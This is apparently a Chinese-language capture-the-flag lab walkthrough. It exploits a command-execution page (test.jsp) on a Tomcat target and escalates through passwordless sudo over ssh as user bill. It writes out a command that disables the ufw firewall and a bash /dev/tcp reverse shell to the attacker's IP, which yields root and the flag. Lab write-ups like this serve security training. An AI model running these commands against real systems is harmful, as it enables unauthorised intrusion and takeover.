# 命令执行漏洞

## 漏洞概述

## 信息收集

Kali的IP地址为：192.168.1.13

靶机的IP地址为：192.168.1.15





开放了8080端口，且该端口开放了http服务

## 目录探测



提示了根目录:/var/lib/tomcat8/webapps/ROOT/index.html等信息



看到一句**“/test.jsp: This might be interesting.”**

那我们看看这个目录有多有趣：



## 漏洞利用

它提示我们输入ls -l /tmp看看



显然我们可以通过执行命令直接操控服务器，执行我们想要的操作。

### 查看home目录



可以看到除了root用户，还有一个bill用户，或许就是突破口

### 查看bill目录



我们可以看到.ssh文件，猜测可以用ssh远程登录bill用户，且还提示我们利用该用户可以成功提权

### ssh登录

> ssh bill@localhost sudo -l
>
> 在本地主机使用ssh登录是无需密码的



### 反弹shell

利用靶场机器反弹shell

> 注意：靶场的系统为ubantu，因此其存在一个默认的ufw防火墙
>
> 使用ssh bill@localhost sudo ufw disable关闭防火墙

**然后输入下面命令上传反弹shell**

> ssh bill@localhost sudo bash -i >& /dev/tcp/192.168.1.13/4444 0>& 1

开启监听可以获得反弹shell



root权限，不需要再提权



直接得到了flag

